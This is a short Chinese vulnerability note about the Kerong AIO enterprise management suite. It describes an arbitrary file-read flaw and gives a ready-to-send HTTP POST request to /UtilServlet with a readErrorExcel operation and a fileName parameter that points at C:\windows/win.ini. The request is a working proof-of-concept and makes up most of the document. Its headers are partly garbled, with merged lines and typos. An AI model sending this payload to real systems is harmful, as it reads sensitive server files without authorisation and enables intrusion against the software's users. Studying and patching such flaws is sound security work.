 漏洞描述：科荣AIO 企业⼀体化管理解决⽅案 通过ERPERP（进销存财务）、OAOA（办公⾃动化）、CRMCRM（客⼾关系管理）、UDPUDP（⾃定义平台），集电⼦商务平台、⽀付平台、ERP 平台、微信平台、移动APP 等解决了众多企业客⼾在管理过程中跨部⻔、多功能、需求多变等通⽤及个性化的问题。科荣AIO 管理系统存在⽂件读取漏洞，攻击者可以读取敏感⽂件

```
POST /UtilServlet
HTTP/1.1
Host:
User-Agent: Mozilla/5.0 Windows NT 10.; Win64; x64) AppleWebKit/537.36 (KHTMIContent-Length: 52
Accept: text/html,application/xhtml+xml,application/xml;g=0.9,image/avif,image.Accept-Encoding: gzip,deflate
Accept-Language: zh-CN,zh;g=0.9
Cache-Control: no-cache
Connection: close
Content-Type: application/x-www-form-urlencodedPragma: no-cache
Upgrade-Insecure-Requests: 1

operation=readErrorExcel&fileName=C:\windows/win.ini
```

